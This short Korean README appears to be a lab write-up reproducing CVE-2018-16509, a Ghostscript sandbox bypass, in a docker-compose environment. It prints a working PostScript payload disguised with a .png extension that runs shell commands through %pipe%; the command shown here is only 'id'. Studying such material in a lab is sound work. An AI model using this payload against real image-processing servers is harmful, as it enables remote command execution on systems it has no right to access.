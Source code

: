 # CVE-2018-16509

**Contributors**

[정기현](https://github.com/jkh011120)

## 요약

CVE-2018-16509는 Postscript 및 PDF를 처리하는 Ghostscript를 우회하여 사용자가 의도치 않은 행위를 하게 합니다. <br>
즉, 파일 확장자로 우회하여 파일업로드 공격이 가능합니다.

## 환경 구성 및 실행

`docker-compose up -d` 커맨드를 입력하여 테스트 환경을 실행합니다.  <br>
(GhostScript 9.23 및 ImageMagick 7.0.8 버전을 사용합니다.)

## poc.ps -> poc.png
Postscript로 코드를 만든 후 확장자를 png로 변경합니다. <br>

```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id > /tmp/success && cat /tmp/success) currentdevice putdeviceprops
```



## 결과

![](1.png)

![](2.png)

![](3.png)

![](4.png)


## 정리

Ghostscript는 파일 우회가 됨. <br>
하지만 9.52.1버전 이후부터 해결 됨.

